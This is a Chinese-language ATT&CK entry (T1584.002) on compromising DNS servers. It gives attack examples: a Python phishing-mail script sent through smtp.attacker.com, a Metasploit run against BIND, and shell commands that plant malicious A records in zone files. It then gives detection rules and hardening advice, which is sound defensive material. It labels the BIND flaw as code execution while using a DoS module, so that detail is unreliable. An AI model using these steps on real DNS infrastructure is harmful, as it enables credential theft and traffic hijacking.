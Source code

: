 # T1584-002-入侵基础设施-DNS服务

## 描述
在入侵目标组织之前，攻击者可能通过劫持第三方域名系统（DNS）服务器来支持目标定位和攻击执行。相比于自建DNS服务器，攻击者可能选择入侵现有的DNS服务器以获取对DNS流量的控制权。这种入侵行为可用于命令与控制（C2）、数据收集、凭据窃取或其他恶意活动。劫持的DNS服务器能够重定向流量、创建恶意子域名或伪造DNS响应，而无需向域名所有者支付费用。

攻击者可能通过以下方式入侵DNS服务：
- **凭据窃取**：通过钓鱼、凭据填充或漏洞利用获取DNS服务器管理员的账户凭据。
- **漏洞利用**：利用DNS服务器软件（如BIND、PowerDNS）的已知漏洞（如远程代码执行）获得控制权。
- **配置篡改**：修改DNS记录（如A、CNAME、NS），将流量重定向到恶意服务器。
- **社会工程**：通过伪装身份攻击DNS服务提供商的帮助中心，获取账户访问权限。
- **恶意子域名**：在受控DNS服务器上创建指向恶意服务器的子域名，用于钓鱼或C2。

入侵DNS服务的高隐蔽性和对流量的控制能力使其成为攻击者的强大工具，尤其是在需要重定向合法流量或窃取敏感信息的场景中。

## 测试案例
以下是模拟攻击者入侵DNS服务的常见方法和案例：
- **凭据窃取**：
  - 通过钓鱼邮件获取DNS服务器管理员的登录凭据。
  - 示例：伪装为DNS服务提供商（如Cloudflare）发送密码重置邮件：
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Reset your password: http://fake-dns.com/reset")
    msg['Subject'] = 'Urgent: DNS Account Reset'
    msg['From'] = 'support@fake-dns.com'
    msg['To'] = 'admin@target.com'
    with smtplib.SMTP('smtp.attacker.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **漏洞利用**：
  - 利用BIND的已知漏洞（如CVE-2016-2776）执行远程代码，控制DNS服务器。
    ```bash
    # 使用Metasploit攻击BIND漏洞
    msfconsole
    use exploit/linux/dns/bind_dos
    set RHOST <DNS_SERVER_IP>
    exploit
    ```
- **配置篡改**：
  - 登录受损DNS服务器，修改A记录指向恶意IP。
    ```bash
    # 修改BIND区域文件
    echo "malicious.sub.target.com. IN A 192.168.1.100" >> /var/named/target.com.zone
    rndc reload
    ```
- **子域名创建**：
  - 在受损DNS服务器上添加恶意子域名，用于C2或钓鱼。
    ```bash
    # 添加子域名记录
    echo "c2.target.com. IN A 192.168.1.200" >> /var/named/target.com.zone
    rndc reload
    ```
- **案例场景**：
  - 攻击者通过钓鱼获取DNS管理员凭据，登录Cloudflare账户，修改A记录将`login.target.com`重定向到钓鱼网站。
  - 利用BIND漏洞入侵企业DNS服务器，创建`malicious.target.com`子域名，托管C2服务器。
  - 参考案例：攻击者通过DNS记录篡改实现流量重定向。

## 检测日志
DNS服务入侵活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **DNS服务器日志**：
  - 记录未经授权的DNS记录变更（如A、CNAME、NS修改）。
- **身份认证日志**：
  - 监控DNS服务器或管理面板的异常登录尝试。
- **邮件服务器日志**：
  - 检测针对DNS管理员账户的钓鱼邮件。
- **网络流量日志**：
  - 识别重定向到恶意IP的DNS查询或异常流量。
- **防火墙/IDS日志**：
  - 检测针对DNS服务器的漏洞利用尝试或异常DNS流量。

## 测试复现
以下是在受控授权环境中模拟DNS服务入侵的步骤：
1. **环境准备**：
   - 搭建测试DNS服务器（如使用BIND或PowerDNS），模拟企业DNS环境。
   - 配置测试域名（如`test-target.com`），指向DNS服务器。
2. **凭据窃取模拟**：
   - 发送伪装的钓鱼邮件，诱导管理员泄露DNS管理凭据：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Reset your password: http://fake-dns.com/reset")
     msg['Subject'] = 'Urgent: DNS Account Reset'
     msg['From'] = 'support@fake-dns.com'
     msg['To'] = 'admin@test-target.com'
     with smtplib.SMTP('smtp.attacker.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
3. **漏洞利用模拟**：
   - 使用Metasploit攻击BIND漏洞：
     ```bash
     msfconsole
     use exploit/linux/dns/bind_dos
     set RHOST <DNS_SERVER_IP>
     exploit
     ```
4. **配置篡改**：
   - 登录受损DNS服务器，添加恶意DNS记录：
     ```bash
     echo "malicious.test-target.com. IN A 192.168.1.100" >> /var/named/test-target.com.zone
     rndc reload
     ```
5. **结果分析**：
   - 验证DNS记录是否重定向到恶意IP，或子域名是否提供恶意内容。
6. **日志收集**：
   - 收集DNS服务器、身份认证、邮件和网络流量日志，分析入侵痕迹。

## 测试留痕
DNS服务入侵可能留下以下痕迹：
- **DNS服务器日志**：未经授权的DNS记录变更或异常查询。
- **身份认证日志**：DNS管理面板的异常登录尝试或IP来源。
- **邮件服务器日志**：针对DNS管理员的钓鱼邮件。
- **网络流量**：重定向到恶意IP的DNS查询或异常C2流量。
- **防火墙/IDS告警**：针对DNS服务器的漏洞利用或异常DNS流量。

## 检测规则/思路
由于DNS服务入侵多发生在目标组织视野之外，检测需结合多种手段：
- **DNS服务器监控**：
  - 检测未经授权的DNS记录变更。
  - 示例DNS日志规则：
    ```plaintext
    Rule: Detect Unauthorized DNS Changes
    Condition: DNS record modified AND NOT authorized_IP
    Action: Alert
    ```
- **身份认证监控**：
  - 监控DNS服务器或管理面板的异常登录。
  - 示例IDS规则：
    ```snort
    alert tcp any any -> <DNS_SERVER_IP> 22 (msg:"Suspicious SSH Login Attempt"; sid:1000001;)
    ```
- **邮件监控**：
  - 使用DLP工具检测针对DNS管理员的钓鱼邮件。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Emails for DNS Accounts
    Condition: Email contains "password reset" AND "dns"
    Action: Alert
    ```
- **网络流量分析**：
  - 使用IDS/IPS（如Snort、Suricata）检测异常DNS查询或重定向流量。
  - 示例Snort规则：
    ```snort
    alert udp any any -> any 53 (msg:"Suspicious DNS Query to Malicious IP"; content:"192.168.1.100"; sid:1000002;)
    ```
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的恶意DNS服务器IP或域名。
  - 监控CVE数据库，关注DNS软件的最新漏洞。
- **日志关联**：
  - 使用SIEM（如Splunk、ELK）关联DNS、身份认证和网络日志，检测入侵或恶意使用的迹象。

## 建议
- **减少暴露面**：
  - 定期审计DNS服务器配置，移除不必要的记录或子域名。
  - 使用强密码和MFA保护DNS管理账户。
- **安全加固**：
  - 及时修补DNS服务器软件漏洞（如BIND、PowerDNS）。
  - 启用DNSSEC，防止DNS记录篡改。
  - 配置DNS服务器防火墙，仅允许可信IP访问管理端口。
- **主动监控与响应**：
  - 部署DNS日志分析工具（如Splunk、ELK），监控异常记录变更或查询。
  - 使用Shodan或Censys扫描暴露的DNS服务器，识别潜在漏洞。
  - 进行威胁狩猎，主动搜索可能的DNS服务入侵。
- **后续阶段检测**：
  - 重点监控攻击者生命周期的后续阶段（如命令与控制T1102、钓鱼T1566），通过异常流量或C2行为间接发现DNS入侵。

## 参考资料
- MITRE ATT&CK: T1584-002  
  <https://attack.mitre.org/techniques/T1584/002/>